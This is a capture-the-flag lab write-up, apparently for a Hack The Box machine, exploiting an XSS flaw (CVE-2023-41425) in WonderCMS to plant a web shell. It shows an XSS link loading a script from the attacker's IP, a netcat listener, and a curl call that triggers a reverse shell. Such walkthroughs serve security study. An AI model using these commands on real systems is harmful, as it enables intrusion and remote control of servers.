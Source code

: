 For Wonder CMS version 3.2.0, I found a relevant vulnerability:

- **CVE-2023-41425**: This is a Cross-Site Scripting (XSS) vulnerability affecting Wonder CMS versions from 3.2.0 to 3.4.2. It allows a remote attacker to execute arbitrary code by uploading a crafted script to the `installModule` component.





### Exploiting the Web Shell

After running the exploit, I was prompted with the usage instructions:

```bash
python exploit.py                                  
usage: python3 exploit.py loginURL IP_Address Port
example: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252
```
I set up my listener and tried the exploit again with the necessary information. The exploit created a web shell and provided the following details:
````
python exploit.py http://sea.htb/loginURL 10.10.14.18 4444 
[+] xss.js is created
[+] execute the below command in another terminal

----------------------------
nc -lvp 4444
----------------------------

send the below link to admin:

----------------------------
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.18:8000/xss.js"></script><form+action="
----------------------------

starting HTTP server to allow the access to xss.js
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
````
Since the method in the exploit was complex, I opted to use curl to access the web shell directly. The web shell location was stated in the code:
````
curl "http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.18&lport=4444"
````
the commond worked and i got a reverse shell


![2024-08-13_13-15](https://github.com/user-attachments/assets/b9a8ab01-6126-484a-9e74-b4d3addba8ad)

### Privilege Escalation

After obtaining a shell as `www-data`, I upgraded my shell for better interaction. My first step was to explore the web directories for sensitive information that could assist with privilege escalation.
